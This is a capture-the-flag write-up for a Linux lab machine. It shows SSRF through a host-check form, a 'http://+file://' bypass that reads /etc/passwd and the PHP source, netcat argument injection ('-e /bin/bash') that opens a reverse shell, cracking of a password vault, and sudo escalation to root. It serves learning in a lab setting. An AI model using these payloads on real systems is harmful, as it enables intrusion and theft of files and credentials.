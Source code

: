 # CTF Writeup

## Enumeration

* Target: Linux virtual machine
* Open ports: **22 (SSH)** and **80 (HTTP)**

### Web Application on Port 80

* Website checks if a host is online
* If up: returns output of curl
* If down: displays "It is down for everyone."

### Verifying Backend Behavior

* Setup listener on attacker machine:

  ```bash
  nc -lvnp 1337
  ```
* Submit attacker IP in the web form
* Response:

  ```
  GET / HTTP/1.1
  Host: 10.10.14.36:1337
  User-Agent: curl/7.81.0
  ```
* ✅ Confirms server uses `curl` → vulnerable to SSRF

## SSRF Exploitation

### Accessing Localhost

* Submit:

  ```
  url=http://127.0.0.1:80
  ```
* Server requests its own web service → SSRF confirmed

### Bypassing File Access Restriction

* Direct `file:///etc/passwd` blocked
* Bypass using curl behavior:

  ```
  url=http://+file:///etc/passwd
  ```
* ✅ Successfully dumped `/etc/passwd`

## Source Code Disclosure

* Using same technique:

  ```
  url=http://+file:///var/www/html/index.php
  ```
* ✅ Retrieved PHP source code

### Hidden Feature Found

* Parameter: `expertmode=tcp`
* Path: `/index.php?expertmode=tcp`
* Unlocks advanced TCP scan form

## Remote Code Execution via Netcat

### Injection Payload

* Parameters:

  ```
  ip=10.10.14.36
  port=4444 -e /bin/bash
  ```
* Listener:

  ```
  nc -lvnp 4444
  ```
* ✅ Reverse shell received

## Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User Enumeration and Password Vault

* Path: `/home/aleks/.local/share/pswm/pswm`
* Vault file from [pswm password manager](https://github.com/Julynx/pswm)
* File copied to local system for analysis

## Cracking the Vault

* Used Python + `pexpect` + `rockyou.txt`
* Based on this walkthrough:
  [YouTube: CTF Writeup](https://youtu.be/mi_t2Nz8dPk?si=5IGA4hs4znjme2AS&t=1113)
* ✅ Password cracked → credentials recovered

## Privilege Escalation

### SSH Login

```bash
ssh aleks@target
```

### Check Sudo Rights

```bash
sudo -l
```

* Aleks has full sudo rights

### Get Root

```bash
sudo su
cat /root/root.txt
```

